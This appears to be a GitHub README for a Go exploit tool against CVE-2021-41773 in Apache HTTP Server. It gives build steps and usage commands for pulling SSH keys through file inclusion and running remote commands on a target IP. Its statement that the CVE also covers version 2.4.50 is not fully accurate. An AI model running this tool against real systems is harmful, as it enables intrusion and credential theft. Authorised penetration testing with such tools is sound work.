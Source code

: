 # SSH Key and RCE PoC for CVE-2021-41773

This repository contains a Proof-of-Concept (PoC) for CVE-2021-41773. This CVE exposes a Local File Inclusion (LFI) and Remote Code Execution (RCE) vulnerability.

---

### Installation

Ensure you have Go version **1.23.0** installed.  
Build the exploit binary with the following command:

```bash
go build -o exploit
```

---

### How to Use

- **Specify the target IP**: Use the `-i` flag to specify the target IP address (include the port). This is **required**.
  - Example:  
    ```bash
    ./exploit -i 10.0.0.1:8080
    ```

- **Specify the SSH wordlist size**: Use the `-l` flag to choose the size of the SSH wordlist.  
  Options:  
  - `0`: Small (default)  
  - `1`: Medium  
  - `2`: Large  
  This flag is **optional**.  
  - Example:  
    ```bash
    ./exploit -i 10.0.0.1:8080 -l 1
    ```

- **Enable HTTPS**: Use the `-ssl` flag to enable HTTPS (default is HTTP). This flag is **optional**.  
  - Example:  
    ```bash
    ./exploit -i 10.0.0.1:8080 -ssl
    ```

- **Specify a custom SSH key wordlist**: Use the `-k` flag to provide a custom wordlist for SSH keys. This flag is **optional**.  
  - Example:  
    ```bash
    ./exploit -i 10.0.0.1:8080 -k /usr/share/wordlist/SecLists/Discovery/Web-Content/quickhits.txt
    ```

- **Enable Remote Code Execution (RCE)**: Use the `-rce` flag to execute commands remotely. This flag is **optional**.  
  - Example:  
    ```bash
    ./exploit -i 10.0.0.1:8080 -rce
    ```

---

### Why?

I wanted to write something in Golang and learn the language.  
This is the first complete program I have written in Golang.

---

### Notes

- Use this tool responsibly and only on systems you have explicit permission to test.
- CVE-2021-41773 affects Apache HTTP Server 2.4.49 and 2.4.50. Ensure the target is vulnerable before running the exploit.
